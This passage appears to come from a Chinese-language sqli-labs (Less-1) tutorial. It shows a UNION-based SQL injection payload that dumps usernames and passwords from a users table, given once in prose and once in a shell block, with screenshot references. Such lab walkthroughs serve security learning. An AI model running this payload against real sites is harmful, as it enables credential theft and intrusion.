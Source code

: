 

6. 通过上述操作可得到两敏感字段<code>username</code>和<code>password</code>,接下来注入<code>?id=-1' union select 1,2,group_concat(username ,id , password) from users--+</code>得到字段对应的内容，在中间加了一个id可以隔一下账户和密码。

~~~ shell
?id=-1' union select 1,2,group_concat(username ,id , password) from users--+
~~~

![Less-1_19](./img/Less-1_19.png)

![Less-1_20](./img/Less-1_20.png)
